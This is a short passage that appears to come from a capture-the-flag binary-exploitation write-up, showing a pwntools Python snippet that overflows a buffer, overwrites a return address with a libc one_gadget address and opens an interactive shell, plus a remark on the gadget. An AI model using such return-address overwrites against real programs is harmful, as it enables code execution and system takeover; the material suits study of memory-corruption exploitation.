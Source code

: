 ![one_gadget](./one_gadget.png)

(btw this one_gadget it's very powerfull. I'm surprised to find it in the latest libc version).

```py
# Overwrite the return address to call one_gadget
payload = flat(
    b"A" * 0x10,
    libc_base + ONE_GADGET_OFFSET
)
p.sendline(b"e")
p.recvuntil(b"> ")
p.sendline(str(1602).encode())
p.recvuntil(b"> ")
p.sendline(payload)

p.interactive()
```